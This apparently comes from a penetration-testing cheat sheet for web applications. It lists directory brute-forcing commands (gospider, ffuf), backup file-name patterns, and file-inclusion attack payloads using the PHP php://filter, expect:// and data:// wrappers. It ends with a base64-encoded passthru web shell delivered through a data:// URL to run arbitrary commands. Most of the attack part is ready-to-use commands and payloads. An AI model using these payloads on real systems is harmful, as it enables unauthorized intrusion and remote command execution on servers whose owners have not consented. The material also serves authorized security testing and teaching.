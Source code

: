 
#### Spidering / Brute force directories / files

```shell
gospider -d <DEPTHS> --robots --sitemap -t <THREADS> -s <URL>

ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/FUZZ -e .php,.txt -t <THREADS>
dirbuster

Dictionaries :
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirb/big.txt
   - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

#### File backups

Once you have found all the files, look for backups of all the executable files ("*.php*", "*.aspx*"...). Common variations for naming a backup are 

```shell
file.ext~, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old
```

#### Local File Inclusion / Remote File Inclusion - LFI / RFI

```shell
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```

#### Wrappers

##### Wrapper php://filter

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
```

##### Wrapper expect://

```
http://example.com/index.php?page=expect://id
```

##### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with 
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

```
